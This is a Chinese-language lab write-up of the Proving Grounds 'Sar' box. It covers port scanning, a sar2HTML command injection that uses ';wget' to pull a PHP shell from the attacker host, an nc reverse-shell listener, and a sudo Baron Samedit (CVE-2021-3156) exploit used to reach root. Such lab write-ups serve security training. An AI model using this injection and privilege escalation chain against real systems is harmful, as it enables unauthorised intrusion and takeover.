

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Sar
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.211.35 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.211.35:22
Open 192.168.211.35:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

查看`/robots.txt`得`sar2HTML`，查看`http://192.168.211.35/sar2HTML/`得版本
```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl 192.168.211.35/robots.txt                                            
sar2HTML
```



找到[edb-47204](https://www.exploit-db.com/exploits/47204)，下載`shell.php`，開nc等反彈

```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

192.168.211.35/sar2HTML/index.php?plot=;wget 192.168.45.202/shell.php
192.168.211.35/sar2HTML/shell.php
```

可在`/home`找到local.txt
```
www-data@sar:/home$ cat local.txt
13462e9ab7336b466ca015fe44d600ac
```

`linpeas.sh`，試[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)
```
www-data@sar:/tmp$ wget 192.168.45.202/linpeas.sh
www-data@sar:/tmp$ chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

得root後，在/root可得proof.txt
```
www-data@sar:/tmp$ wget 192.168.45.202/exploit_nss.py
www-data@sar:/tmp$ python3  exploit_nss.py
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@sar:/root# cat proof.txt
d91752963843967df194a08e019dcb48
```